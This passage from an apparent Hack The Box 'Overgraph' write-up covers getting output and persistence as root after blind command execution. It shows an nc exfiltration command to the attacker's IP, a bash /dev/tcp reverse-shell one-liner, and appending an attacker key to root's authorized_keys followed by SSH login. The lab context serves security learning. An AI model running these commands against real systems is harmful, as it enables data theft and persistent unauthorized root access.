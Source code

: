     
    
    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    09:47:47.806923 IP 10.10.11.157 > 10.10.14.6: ICMP echo request, id 2, seq 1, length 64
    09:47:47.806980 IP 10.10.14.6 > 10.10.11.157: ICMP echo reply, id 2, seq 1, length 64
    tcpdump: pcap_loop: The interface went down
    2 packets captured
    2 packets received by filter
    0 packets dropped by kernel
    

So it’s working, just not getting output.

#### SSH

Without seeing anything, there are many approaches I could take, including:

  * Run commands and pipe into `nc` to send back to my VM. It works, and looks like: 
    
        root@overgraph:~# id | nc 10.10.14.6 443
    
    
        oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.157 49866
    uid=0(root) gid=0(root) groups=0(root)
    

  * Get a reverse shell using `bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'`.

  * Check for a root SSH key and send it back over `nc` or `curl`.

  * Write my own SSH key into `authorized_keys`.

I’ll use this one line to create the `.ssh` directory if it doesn’t exist, add
my key to the `authorized_keys` file (appending so as to not overwrite if it
does exist), and then make sure the permissions are good for SSH to trust it:

    
    
    root@overgraph:~# $ mkdir -p /root/.ssh/; echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /root/.ssh/authorized_keys; chmod 600 /root/.ssh/authorized_keys
    

After that, I’m able to SSH as root:

    
    
    oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@graph.htb
    Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-107-generic x86_64)
    ...[snip]...
    root@overgraph:~# 
    

[](/2022/08/06/htb-overgraph.html)

